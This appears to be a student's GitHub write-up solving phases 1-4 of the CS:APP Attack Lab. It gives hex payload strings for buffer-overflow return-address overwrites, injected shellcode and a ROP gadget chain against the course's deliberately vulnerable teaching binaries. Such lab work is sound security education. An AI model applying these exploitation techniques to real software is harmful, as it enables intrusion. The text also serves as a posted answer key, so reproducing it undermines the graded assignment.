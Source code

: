 # Attack Lab

> This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.

Before starting the lab, read [Writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf) & CSAPP 3.10.3, 3.10.4 carefully.

## Code Injection Attack

### Phase 1

> Same as textbook.

```c
// when s increase, %rsp address decrease
char *Gets(char *s) {
    int c;
    char *dest = s;
    while ((c = getchar()) != '\n' && c != EOF) {
        *dest++ = c;
    }
    if (c == EOF && dest == s)
        // No characters read
        return NULL;
    *dest++ = '\0'; // termination string
    return s;
}

unsigned getbuf() {
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

// getbuf is called by test
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

// our target
void touch1() {
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

What we need to do is to inject a return the address of `touch1()` to `getbuf()`.

In our case, gcc allocated `0x24` bytes for `getbuf()` - 40 bytes.
That is: if input is less than 23 bytes (stack saved 16 bytes, '\0' 1 byte), it will work well.
But if input is more than 23 bytes, it will cause buffer overflow.

We need to inject a return address to `getbuf()` via buffer overflow.
The address is `0x00000000004017c0`.

So, the answer is:

```bash
# we donot care about the low 40 bytes
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
c0 17 40 00 00 00 00 00 # little endian
```

### Phase 2

```c
void touch2(unsigned val) { // passed in %rdi
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

What we need to do is to inject code segment that store *cookie* to `%rdi`, and then call `touch2()`.
The only way to inject our code is to add our code segment to the string, make the string run as code.

The return address as above, should be our code segment's address.

```x86
0:	68 ec 17 40 00       	push   $0x4017ec
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
c:	c3                   	ret
```

After `getbuf()` pushing stack, the `%rsp` is `0x5561dc78`. The first address of our code segment is
`0x5561dc78`, too.

So, the answer is:

```bash
68 ec 17 40 00 48 c7 c7 # code segment address, the dump code already little endian
fa 97 b9 59 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment
```

### Phase 3

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) { // passed in %rdi
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

We need to store an array to somewhere, very similar to phase 2.
In order to prevent the string stored in the stack from being destroyed,
we need to store it safely. Obviously we need to store it in the stack/heap.

The `ret` will pop the return address, so after jumping to `touch3()`,
the `%rsp` is controlled by `touch3()` & its callees.

We need to store it into [temporary] saved stack. According to CSAPP 3.10.3,
the saved location is less than `getbuf()`'s stack representing by address value.

```bash
# ASCII version of cookie
35 39 62 39 39 37 66 61
```

```x86
0: 68 fa 18 40 00       	push   $0x4018fa
5: 48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi # the string address, stored in stack bottom of getbuf()
c: c3                   	ret
```

So, the answer is:

```bash
68 fa 18 40 00 48 c7 c7 # 0x5561dc78=0x5561dca0-0x28 (getbuf() allocate memory)
a8 dc 61 55 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00 # the address of our code segment; 0x5561dca0
35 39 62 39 39 37 66 61 # ASCII version of cookie; 0x5561dca0~0x5561dca8
# string is an array of char, head is '5'/'\35', tail is '\61'; first address is 0x5561dca0
```

> If we want to read the above hex from big to small(stack increase), we need to read from bottom to top, from left to right.

## Retrun-Oriented Programming

> The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction `ret`

1. Because of stack randomization, we cannot indentify the exact location of the return address.
2. Saved stack is non-executable, so we cannot use it to store **our** code.

=> We can only use the snippets that already exist in the file. Use the specific address to get
what we need. (Unlike RISC-V every instruction is 32-bit)

* `nop`: `0x90`
* `ret`: `0xc3`

### Phase 4

We need to store `0x59b997fa` to `%rdi` and then call `touch2()`.

<strong>*</strong> Use `popq %rdi`: `0x5f`

There is no `0x5f` between `start_farm()` and `mid_farm()`.

<strong>*</strong> Use middile register `%eax`

```x86
# we need something like this
popq %rax        # 58   ; stack top is 0x59b997fa
movl %eax, %edi  # 89 c7
ret              # c3   ; return 0x4017ec
```

* gadget 1: `addval_273()`
* gadget 2: `addval_219()`

```x86
# address we need: 0x4019a0 + 0x3 = 0x4019a3
00000000004019a0 <addval_273>: # 1
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret

# address we need: 0x4019a7 + 0x4 = 0x4019ab
00000000004019a7 <addval_219>: # 2
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

So, the answer is:

```bash
ff ff ff ff ff ff ff ff # 0x5561dc78=0x5561dca0-0x28 (getbuf() allocate memory)
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ab 19 40 00 00 00 00 00 # gadget 2
fa 97 b9 59 00 00 00 00 # cookie, pop to %rax
a3 19 40 00 00 00 00 00 # gadget 1
ec 17 40 00 00 00 00 00 # touch2()
```

**Use `rtarget` instead of `ctarget`**. Because of this bug I've been looking for for a long time.

> I choose to skip the extra credit part.

